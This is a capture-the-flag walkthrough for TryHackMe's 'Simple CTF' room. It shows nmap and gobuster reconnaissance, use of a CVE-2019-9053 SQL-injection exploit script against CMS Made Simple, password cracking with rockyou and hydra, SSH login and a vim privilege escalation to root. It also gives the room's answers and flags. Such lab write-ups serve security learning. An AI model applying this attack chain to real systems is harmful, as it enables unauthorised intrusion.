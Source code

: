 
![[logo.png]]

Link: https://tryhackme.com/r/room/easyctf

# Task 1 - Simple CTF 


1. **How many services are running under port 1000?**
```bash
sudo nmap -sS -p- 10.10.76.159 -oN simplectf.txt -T4
```

```bash
PORT     STATE SERVICE
21/tcp   open  ftp
80/tcp   open  http
2222/tcp open  EtherNetIP-1

Nmap done: 1 IP address (1 host up) scanned in 417.03 seconds
```

>2 ports open under port 1000

2. **What is running on the higher port?**

```bash
sudo nmap -A -p2222 10.10.76.159 
```

```bash
PORT     STATE SERVICE VERSION
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
```

>SSH

Navigate to http://10.10.76.159/ and its nothing special here.

![[img-1.png]]

Use `gobuster` for directory scanning and I've found a directory called `/simple`.

![[img-2.png]]

Navigate to http://10.10.76.159/simple and scroll to the bottom. Noticed that it's using CMS Made Simple with version 2.2.8

![[img-3.png]]

![[img-4.png]]

Search for vulnerability using `searchsploit`.

![[img-5.png]]


3. **What's the CVE you're using against the application?**

![[img-6.png]]
>CVE-2019-9053

4. **To what kind of vulnerability is the application vulnerable?**
>SQLi

5. **What's the password?**
```bash
 python exploit.py -u http://10.10.76.159/simple/ --crack -w /usr/share/wordlists/rockyou.txt
```

![[img-8.png]]

It keep crashing but luckily we got the username so I decided to crack it using hydra.

![[img-7.png]]
>secret


6. Where can you login with the details obtained?

![[img-9.png]]
>ssh

7. What's the user flag?
>G00d j0b, keep up!

8. Is there any other user in the home directory? What's its name?
```ssh
$ pwd
/home/mitch
$ cd /home
$ ls
mitch  sunbath
```
>sunbath

9. What can you leverage to spawn a privileged shell?
![[img-10.png]]
>vim

10. What's the root flag?
```ssh
# cd /root
# pwd
/root
# ls
root.txt
# cat root.txt
W3ll d0n3. You made it!
```
>W3ll d0n3. You made it!
